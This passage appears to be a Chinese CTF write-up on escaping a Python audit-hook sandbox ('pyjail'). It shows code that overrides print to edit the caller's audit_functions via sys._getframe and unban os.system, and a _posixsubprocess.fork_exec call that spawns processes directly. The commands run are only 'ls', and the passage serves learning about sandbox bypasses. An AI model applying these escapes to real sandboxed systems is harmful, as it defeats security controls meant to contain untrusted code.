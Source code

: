 &gt;
&gt; 等等

这种 pyjail 要 rce 查了查有好多种方法

```python
DEBUG = True
import os, sys
origin_print = print
def print(*args):
    # original_print(sys._getframe(1).f_locals)
    t = sys._getframe(1).f_locals[&#39;audit_functions&#39;]
    t[&#39;os.system&#39;][&#39;ban&#39;] = False
    # origin_print(t)
    return origin_print(*args)

os.system(&#39;ls&#39;)
```

第一次见，长见识了，先把原生 `print` 保存为 `origin_print` ，然后重写 `print`

访问调用栈上一级函数的局部变量，这里调用的是 `os.system` 的局部变量

1 是上一级帧，0 是当前帧，依此类推

```python
t = sys._getframe(1).f_locals
# {&#39;event&#39;: &#39;os.system&#39;, &#39;args&#39;: (b&#39;ls&#39;,), &#39;audit_functions&#39;: {&#39;os.system&#39;: {&#39;ban&#39;: False}, ... }}
```

修改 audit_functions 字典，/pardon `os.system` （什么方块人）

然后继续执行 `print(*args)` ，这样就实现了 rce

或者

可以用 `_posixsubprocess.fork_exec` 

&gt; `posixsubprocess` 是内部模块，核心功能是 `fork_exec` 函数，提供了一个非常底层的方式创建子进程，并在子进程中执行指定程序

```python
import os
import _posixsubprocess

cmd = b&#34;/bin/ls&#34;
param = &#34;.&#34;
_posixsubprocess.fork_exec([cmd, param], [cmd], True, (), None, None, -1, -1, -1, -1, -1, -1, *(os.pipe()), False, False,False, None, None, None, -1, None, False)
```

网上搜来的，一堆参数一眼看不明白，查查源码，每个版本之间可能有差异

```python
# _posixsubprocess.py
def fork_exec(*args, **kwargs): # real signature unknown
    &#34;&#34;&#34;
    Spawn a fresh new child process.
    
    Fork a child process, close parent file descriptors as appropriate in the
    child and duplicate the few that are needed before calling exec() in the
    child process.
    
    If close_fds is True, close file descriptors 3 and higher, except those listed
    in the sorted tuple pass_fds.
    
    The preexec_fn, if supplied, will be called immediately before closing file
    descriptors and exec.
    
    WARNING: preexec_fn is NOT SAFE if your application uses threads.
             It may trigger infrequent, difficult to debug deadlocks.
```